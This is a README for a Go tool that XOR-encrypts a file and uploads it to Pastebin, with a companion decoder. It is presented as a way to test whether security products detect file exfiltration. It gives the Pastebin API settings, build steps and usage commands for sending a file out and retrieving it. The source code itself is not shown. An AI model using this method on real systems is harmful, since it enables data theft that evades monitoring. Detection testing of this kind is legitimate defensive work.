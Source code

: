 #  file encryption and send to Pastebin

This program is designed to test the level at which security products can detect file exfiltration.
The program specified as an argument is encrypted using a simple XOR cipher and then uploaded to Pastebin.
It is also possible to retrieve it from the URL and decrypt it locally.

change this section to your pastebin API key
```
// Pastebin API setting
const (
	pastebinAPIURL   = "https://pastebin.com/api/api_post.php"
	pastebinAPIKey   = "<YOUR API KEY>" // Pastebin API Key
	pastebinUserKey  = ""                     // option <login users key>
	pastebinPrivate  = "1"                    // 0=pub, 1=invisible, 2=private
	pastebinOption   = "paste"                // API option; paste
)


```


build:
  ```
  go build encode.go
  go build decode.go
  ```

usage:
  ```
[encode and send]
  ./encode <file>

[decode and get]
  ./decode https://pastebin.com/<PATH> <output file>
  ```

example:

![image](https://github.com/user-attachments/assets/92745951-62ca-4dda-afc9-ecbc0a8ad58f)

![image](https://github.com/user-attachments/assets/5833914e-24dc-430d-a1f1-74a7718a9402)

![image](https://github.com/user-attachments/assets/e6ebd9df-e52d-4fe5-8be8-69f93952a73a)




